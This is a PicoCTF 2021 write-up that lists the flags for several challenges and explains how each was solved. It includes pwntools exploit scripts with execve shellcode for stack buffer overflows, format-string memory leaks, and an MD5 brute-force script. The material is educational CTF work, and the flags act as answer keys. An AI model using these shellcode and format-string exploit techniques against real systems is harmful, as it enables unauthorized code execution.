

# PicoCTF 2021 Write-up

## Flags
| task                                    | flag                                                     |
| ---                                     | ---                                                      |
| [Obedient cat](#obedient-cat)           | `picoCTF{s4n1ty_v3r1f13d_b5aeb3dd}`                      |
| [Mod 26](#mod-26)                       | `picoCTF{next_time_I'll_try_2_rounds_of_rot13_ZNMldSDw}` |
| [Python Wrangling](#python-wrangling)   | `picoCTF{4p0110_1n_7h3_h0us3_aa821c16}`                  |
| [Binary Gauntlet 0](#binary-gauntlet-0) | `fbd01d62c0e369e6de3d63b4b21d3830`                       |
| [Wave a flag](#wave-a-flag)             | `picoCTF{b1scu1ts_4nd_gr4vy_755f3544}`                   |
| [information](#information)             | `picoCTF{the_m3tadata_1s_modified}`                      |
|  Nice netcat...                         | `picoCTF{g00d_k1tty!_n1c3_k1tty!_7c0821f5}`              |
|  Get aHEAD                              | `picoCTF{r3j3ct_th3_du4l1ty_6ef27873}`                   |
| [Stonks](#stonks)                       | `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}`                  |
| [Binary gauntlet 1](#binary-gauntlet-1) | `7504344981b9288c5669150ada84894e`                       |
|  Binary Gauntlet 2                      | `230fc5c335f1fe302abdc387d498fe40`                       |
| [What's your input?](#whats-your-input) | `picoCTF{v4lua4bl3_1npu7_7607377}`                       |
|  Weird File                             | `picoCTF{m4cr0s_r_d4ng3r0us}`                            |
| [Matryoshka Doll](#matryoshka-doll)     | `picoCTF{e3f378fe6c1ea7f6bc5ac2c3d6801c1f}`              |
|  Wireshark doo dooo do doo...           | `picoCTF{p33kab00_1_s33_u_deadbeef}`                     |
|  gogo                                   | `picoCTF{p1kap1ka_p1c05729981f}`                         |
| [Easy as GDB](#easy-as-gdb)             | `picoCTF{I_5D3_A11DA7_e5458cbf}`                         |
| [Rolling my own](#rolling-my-own)       | `picoCTF{r011ing_y0ur_0wn_crypt0_15_h4rd!_ad137747}`     |


## Obedient cat
just cat the file

`picoCTF{s4n1ty_v3r1f13d_b5aeb3dd}`

## Mod 26
rot 13 in cyberchef

`picoCTF{next_time_I'll_try_2_rounds_of_rot13_ZNMldSDw}`

## Python Wrangling
Just run the scipt
```
 $ python ende.py -d flag.txt.en
Please enter the password:aa821c16aa821c16aa821c16aa821c16
picoCTF{4p0110_1n_7h3_h0us3_aa821c16}
```

## Binary Gauntlet 0 
Quickly looking through the disassembly, we can see that we can overflow a
buffer on the stack, which would cause a segfault, and the handler would print
the flag for us.

```
 $ python -c "print(); print('A' * 500)" | nc mercury.picoctf.net 12294
fbd01d62c0e369e6de3d63b4b21d3830
```

## Wave a flag
```
 $ ./warm -h
Oh, help? I actually don't do much, but I do have this flag here: picoCTF{b1scu1ts_4nd_gr4vy_755f3544}
```

## information
```
 $ exiftool cat.jpg
...
License                         : cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9
Rights                          : PicoCTF
...

 $ base64 -d
cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9
picoCTF{the_m3tadata_1s_modified}
```

## Stonks
The source code is quite long, but it won't distract us from this:
```c
int buy_stonks (Portfolio *p) {
    ... 
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);
    ...
}
```
This is a format string vulnerability. Let's play around with it.
`%s` returns itself, but we can't just spam a lot of formats because it seems
to only print one. Let's use direct access then.
`%2$p` prints some pointer, however it's not a string. 
Searching further, with `%15$x` we get some ascii-looking hex. Indeed:
```py
>>> bytes.fromhex("6f636970")
b'ocip'
```
Let's find out how long the string is. After more poking around, we can see
that it goes at least until `%23$x`. We wrote a simple script that would dump
the string for us:

```py
from pwn import remote

def exploit(fmt):
    r = remote('mercury.picoctf.net', 53437)
    r.recvlines(5)
    r.sendline("1")
    r.recvline()

    r.sendline(fmt)
    r.recvlines(3)
    return r.recvuntil("Portfolio", drop=True)

if __name__ == '__main__':
    flag = b""
    for x in range(15, 24):
        b = exploit(f'%{x}$x').decode()
        flag += bytes.fromhex(b)[::-1]
    print(flag)
```
After running it we get `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea`, add `}` and you have a flag!


## Binary Gauntlet 1
The code is simple:



The program first prints the address of `dest`. Then it reads our command and
`printf`s it, but we don't need to exploit the format string.  As we can see, a
buffer of length of up to 1000 is copied to a buffer on the stack of length 104.
There isn't a magic give-me-the-flag-function, so let's shellcode it,
thankfully, NX is disabled.

A simple exploit to get the shell:
```py
from pwn import *

context.binary = "./gauntlet"

shellcode = b"""\
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\
\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\
\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05\
"""

r = remote('mercury.picoctf.net', 19968)
addr_stack = int(r.recvlineS(), 16)
r.sendline()
r.send(
    shellcode +
    b'a' * (104 - len(shellcode) + 8 + 8) +
    p64(addr_stack)
)
r.interactive()
```

```
 $ python exploit.py
...
[+] Opening connection to mercury.picoctf.net on port 19968: Done
[*] Switching to interactive mode
 $ cat /etc/hostname
challenge-server-mercury
 $ find / | grep 'flag'
./flag.txt
 $ cat ./flag.txt
7504344981b9288c5669150ada84894e
```

## Binary Gauntlet 2
In this challenge we have to exploit a format string vulnerability. When
running the binary we can enter a string that would be echoed to us. However, it
is passed as a format argument to printf, so, coupled with NX disabled, this
means we can get the address of the buffer we are going to read to next, place
shellcode and jump to it.

Let's write the exploit:
```py
from pwn import *
import sys

context.binary = "./gauntlet"

shellcode = b"""\
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\
\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\
\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05\
"""

if 'local' in sys.argv:
    r = process("./gauntlet")
    input("Attach!")
else:
    r = remote('mercury.picoctf.net', 49704)

r.sendline("%6$p")
addr_leak = int(r.recvlineS(), 16)
addr_stack = addr_leak - 0x158
print(f"leaked: {hex(addr_leak)} -> {hex(addr_stack)}")
print(len(shellcode))

r.sendline(
    shellcode +
    b'\x90' * (104 - len(shellcode) + 8 + 8) +
    p64(addr_stack)
)
r.interactive()
```

For some reason, offset `0x158` works only on the remote binary. When testing
locally my offset was `0x168`.

```
 $ python exploit.py
[+] Opening connection to mercury.picoctf.net on port 49704: Done
leaked: 0x7ffea2106cf8 -> 0x7ffea2106ba0
29
[*] Switching to interactive mode
$ ls
flag.txt
gauntlet
xinet_startup.sh
$ cat flag.txt
230fc5c335f1fe302abdc387d498fe40
```

## What's your input?
We are given a script that runs when we connect to the server.  It asks us our
favorite year and city to visit with an `input` function.  However, this is
Python 2! The `input` function doesn't just read a string (like `raw_input`),
it also evals it!  All we have to do is answer the question about the city like
this:

```
What's the best city to visit?
City? city
You said: Fitchburg
I agree!
picoCTF{v4lua4bl3_1npu7_7607377}
```
And we get the flag!

## Matryoshka Doll
```
 $ binwalk -e -M dolls.jpg
 $ cat _dolls.jpg.extracted/base_images/_2_c.jpg.extracted/base_images/_3_c.jpg.extracted/base_images/_4_c.jpg.extracted/flag.txt
picoCTF{e3f378fe6c1ea7f6bc5ac2c3d6801c1f}
```

## Easy as GDB 
I have no idea how was that supposed to be solved using
bruteforce via GDB.  However, the algorithm is not that complicated. We can
clearly see this string constant:

```
b'.n@h\x1dSe|\x17X\x16CmXb6oCb0\x01b\x163k?@e8z'
2e6e40681d53657c175816436d5862366f436230016216336b3f4065387a
```

Let's figure out what is happening with the user input.
1. Encrypt using xor multiple (1713 times) with a key from `range(0x0abcf00d, 0xdeadbeef, 0x1fab4d)`
2. Permute the encrypted string

Then, when it's checked:
1. Permute user input in opposite direction (taken as an argument by the permutation function)
2. Permute the flag in negative direction
3. Check the flag and the user input byte by byte. 

After fiddling with the permutation function, we can see that it can undo itself:
```c
#include <stdio.h>

// encrypt_permute's helper function
void permute (char *s, int len, int idx) {
    for (int i = 0; i < len - idx + 1; i += idx )
    {
        char v3 = s[i];
        s[i] = s[i - 1 + idx];
        s[i - 1 + idx] = v3;
    }
}

int main() {
    int len = 16;

    char x[] = "0123456789abcdef";
    
    // permute in positive direction
    for (int i = 1; i < len; ++i) {
        permute(x, len, i);
    }
    printf("%s\n", x);
   
    // permute in negative direction
    for (int i = len - 1; i > 0; --i) {
        permute(x, len, i);
    }
    printf("%s\n", x);
}
```

Running this we get:
```
b01346a7cf2d9e58
0123456789abcdef
```

So, to decrypt the flag, let's use a debugger. Place a breakpoint `0x0953`,
where the flag's permutation has been undone, and leak `0x1e` bytes at `*$rsp`.

Then we apply the xor encryption function to the flag:
```py
from struct import pack
from pwnlib.util import fiddling as f

flag = [0x2e, 0x6e, 0x40, 0x68, 0x1d, 0x53, 0x65, 0x7c, 0x17, 0x58,
        0x16, 0x43, 0x6d, 0x58, 0x62, 0x36, 0x6f, 0x43, 0x62, 0x30,
        0x1,  0x62, 0x16, 0x33, 0x6b, 0x3f, 0x40, 0x65, 0x38, 0x7a]
flag = bytes(flag)

flag_c = flag

d = 0x1fab4d
c = 0x0abcf00d
while c < 0xdeadbeef:
    key = pack(">I", c)
    flag_c = xor(flag_c, key)
    c += d 

print(flag_c)
```

Running it we get
```
b'picoCTF{I_5D3_A11DA7_e5458cbf}'
```

## Rolling my own
The authors provide a link to this [paper](https://pages.cpsc.ucalgary.ca/~aycock/papers/antidis.pdf)

In a nutshell, the anti-disassembly technique is:
1. Calculate an MD5 hash of some value
2. Save a subsequence of the hash in an executable area
3. Jump to that area and execute the code

This means that the password we enter is used to generate the code that would be executed.

The program works like this:
1. Load the salt string `GpLaMjEWpVOjnnmkRGiledp6Mvcezxls`
2. Read the password 
3. Prepare the chunks of 4 bytes of the password plus 8 bytes of salt string. 
    This also means that the password is 16 bytes long.
4. For each of 4 12-byte chunks compute the MD5 hash and store it.
5. Take 4 bytes from each of the hashes starting at indexes 8, 2, 7, 1 (in order of processing).
    Store the bytes at `mmap`ed executable regions
6. Call the region with a pointer to magic give-me-the-flag function.
    The magic function expects `rdi` to be `0x7B3DC26F1`.

Let's figure out what code we would have to generate. As hinted by the devs,
`D1v1` is the first part of the password. Four bytes are generated with this part:
`4889fe48`, which disassemble to `mov rsi, rdi; mov?..`.
So, the code might be as follows:
```
48 89 fe                mov    rsi, rdi
48 bf f1 26 dc b3 07    movabs rdi, 0x7b3dc26f1
00 00 00 
ff d6                   call   rsi
c3                      ret
```
Which is exactly 16 bytes in length.

Now we just have to write the exploit:
```py
from pwn import *
from string import printable

context.arch = "amd64"

slices = [
    slice(8, 12), 
    slice(2, 6), 
    slice(7, 11),
    slice(1, 5)
]

salts = b"GpLaMjEW pVOjnnmk RGiledp6 Mvcezxls".split()
pwd = [b"D1v1", b"", b"", b""]

"""
    mov rsi, rdi; mov rdi, 0x7B3DC26F1; call rsi; ret

   [+] Bytes count: 16
       Raw bytes:  "\x48\x89\xfe\x48\xbf\xf1\x26\xdc\xb3\x07\x00\x00\x00\xff\xd6\xc3"
       Hex string: "4889fe48bff126dcb307000000ffd6c3"
"""

CODE = [
    b"\x48\x89\xfe\x48", 
    b"\xbf\xf1\x26\xdc",
    b"\xb3\x07\x00\x00",
    b"\x00\xff\xd6\xc3"
]

ALPH = printable[:-38]

password = b""

for (i, (code, salt, sl)) in \
        enumerate(zip(CODE, salts, slices)):
    if pwd[i]:
        continue
    
    def brute(x):
        md5 = md5sum(x.encode() + salt)
        return md5[sl] == code

    part = pwnlib.util.iters.mbruteforce(brute, ALPH, 4, method='fixed')
    log.info("Found part: %s", part)
    
    pwd[i] = (part or "").encode()

print(pwd)
print(b"".join(pwd))
```
The script gives us the password `D1v1d3AndC0nqu3r`.
Let's get the flag!
```
 $ nc mercury.picoctf.net 17615
Password: D1v1d3AndC0nqu3r
picoCTF{r011ing_y0ur_0wn_crypt0_15_h4rd!_ad137747}
```


